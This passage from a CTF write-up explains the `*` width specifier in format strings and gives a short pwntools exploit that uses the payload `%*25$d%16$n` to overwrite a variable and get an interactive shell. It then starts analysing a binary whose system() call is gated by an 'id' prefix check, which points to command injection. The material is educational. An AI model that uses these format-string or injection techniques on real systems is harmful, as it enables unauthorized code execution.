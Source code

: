#### 小结

* `*`如果单独使用，则**按顺序**取参数列表中的参数
* `*`如果配合`$`使用，则取参数列表中**相应位置**的参数，如`*1$`
* 取出的参数将格式化为**十进制数**，用作限制**字符串宽度**

#### 用途

* 缩短格式化字符串长度

------

回到题目，`%*25$d%16$n`可以把`v10`的值直接复制给`v8`

用`%n`可能会一次打印好多字符，不过多试几次，当`v10`很小的时候很快的打印完了

写exp时可以使用`pwntools`的`clean`函数接受数据

### exp

```python
fmt = "%*25$d%16$n"
sla('user: ',fmt)
#debug('b *0x08048a63')
sla('code: ','2333')

p.clean(10)
p.interactive()
```

> clean(10): **接受全部数据**并**清空缓冲区**，timeout为10秒

## pwn5 (176pt, unsolved)

## pwn6 (135pt, unsolved)

## Admpanel (58pt)

### Description

> We found this legacy admin panel. Someone has patched it though :( 

### Attachment

[admpanel](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/admpanel/admpanel)

### Analysis

`system(&s)` was called in following code:

```c
  if ( !strncmp(&s, "id", 2uLL) )
    return system(&s);
```
